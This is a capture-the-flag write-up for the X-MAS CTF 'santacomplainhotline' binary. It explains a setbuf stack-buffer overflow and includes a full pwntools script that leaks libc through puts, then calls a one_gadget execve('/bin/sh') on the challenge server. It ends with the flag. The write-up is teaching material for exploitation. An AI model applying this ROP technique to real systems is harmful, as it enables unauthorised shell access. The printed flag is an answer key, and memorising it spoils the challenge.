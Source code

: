 # PROTECTIONS
```shell
$ checksec ./chall
[*] '/home/user/Desktop/x-mas_ctf/santacomplainhotline/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# ANALYSIS

![img/1.png](img/1.png)

So the program basically go through a loop and every time takes 512 bytes input, saves it in a buffer large enough and then write it to "/dev/null". It stops when we submit the string "done"

### VULNERABILITY
The vulnerability is in the "setbuf" usage. Essentially the function turns on the stream bufferization (see "man setbuf").
The program pass a stack variable address (&var_410) as user buffer for that. So essentially every user input will be write onto the stack and than redirect to "/dev/null".
We can inject a Rop-chain and than submit "done" to make the main return and trigger our exploit.

# EXPLOITATION
### MEMORY LEAK
Since I'm gonna use a libc one-gadget, a libc memory leak is needed to bypass ASLR.
We can create a first ROP that calls `puts` passing the puts itself as address to leak since at that time it will be already resolverd by the loader.
Than put the `main` address in order to re-enter the main fucntion and inject a second ROP


### GET SHELL
Now that we have a libc leak we can simply inject a second ROP that calls a "one gadget" in the given libc:

```shell
$ one_gadget libc-2.27.so
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

# EXPLOIT
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("chall_patched")
libc = ELF("libc-2.27.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

POP_RDI = 0x4008f3
PUTS_PLT = 0x400600
PUTS_GOT = 0x601018
ONE_GADGET = 0x10a2fc
MAIN = 0x400767

gs = ''' 
continue
'''

def conn():
    if args.LOCAL:
        r = gdb.debug("./chall_patched", gdbscript=gs)
    else:
        r = remote("challs.htsp.ro", 8001)
    return r


def main():
    r = conn()

    PAYLOAD = b'A'*16
    PAYLOAD += p64(POP_RDI)
    PAYLOAD += p64(PUTS_GOT)
    PAYLOAD += p64(PUTS_PLT)
    PAYLOAD += p64(MAIN)

    r.sendafter("/dev/null", b'\n\n')
    r.sendline(PAYLOAD)
    r.sendline("done")
    r.recvuntil("\n")
    leak = u64(r.recv(6).ljust(8, b'\x00'))
    libc.address = leak - libc.symbols['puts']

    print("leaked:    ", hex(leak))
    print("libc base: ", hex(libc.address))

    r.sendafter("/dev/null", b'\n\n')
    PAYLOAD = b'A'*16
    PAYLOAD += p64(ONE_GADGET + libc.address)
    r.sendline(PAYLOAD)
    r.sendline("done")
    r.interactive() 


if __name__ == "__main__":
    main()

```

# FLAG
`X-MAS{H07l1n3_Buff3r5_t00_5m4ll}`